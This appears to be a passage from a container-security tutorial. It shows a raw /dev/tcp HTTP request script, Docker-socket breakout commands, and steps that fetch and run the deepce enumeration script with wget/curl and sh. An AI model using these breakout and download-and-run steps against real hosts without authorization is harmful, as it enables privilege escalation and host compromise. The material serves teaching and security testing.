 ```bash
#!/bin/bash

# Connect to example.com on port 80 and send an HTTP GET request
exec 3<>/dev/tcp/example.com/80

# Send the HTTP GET request to fetch the homepage
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n" >&3

# Read and print the response from the server
while IFS= read -r line <&3; do
    echo "$line"
done

# Close the TCP connection
exec 3>&-
exec 3<&-
```  


## Advanced Container Breakouts 

### Leveraging Docker Sockets 
Docker socket (`/var/run/docker.sock`) exposure is a critical misconfiguration vulnerability that can allow container breakout by interacting directly with the Docker API.  

#### Example: Using Docker Socket 


```bash
# Run a container with Docker socket mounted
docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash

# Inside the container, start another container
apt-get update && apt-get install -y docker.io
docker run -it --rm alpine /bin/sh
```

Mounting the Docker socket into a container allows the attacker to control the Docker daemon of the host, enabling them to start new containers with higher privileges or access the host filesystem directly.

### Using Deepce for Advanced Breakouts 

[*Deepce*](https://github.com/stealthcopter/deepce) is a powerful tool for enumerating containers configuration and identifying possible exploits.  
It automates many of the steps required to find and exploit these vulnerabilities.

#### Example: Using Deepce 
 
1. **Install Deepce** :


```bash
# Run a container with Docker socket mounted
docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash

# Inside the container, install deepce
apt update && apt install -y wget curl jq
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
sh deepce.sh

```
 